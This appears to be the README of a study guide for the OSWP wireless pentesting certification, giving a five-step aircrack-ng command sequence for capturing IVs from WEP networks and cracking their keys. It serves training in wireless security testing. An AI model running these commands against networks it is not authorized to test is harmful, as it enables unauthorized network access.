 # OSWP-Study-Guide
Study guide and command sheet for Offensive Security PEN-210 course (Offensive Security Wireless Pentester - OSWP)

## WEP (Wired Equivalent Privacy)
WEP is a severely flawed security algorithm for IEEE 802.11 wireless networks. Below are the steps to exploit WEP vulnerabilities:


# Step 1: Kill conflicting processes
```bash sudo airmon-ng check kill

# Step 2: Start monitor mode on wlan0
sudo airmon-ng start wlan0

# Step 3: Scan for WEP networks
sudo airodump-ng wlan0mon --encrypt WEP

# Step 4: Capture IVs
besside-ng -c Channel -b BSSID wlan0mon

# Step 5: Crack WEP key
aircrack-ng ./wep.cap
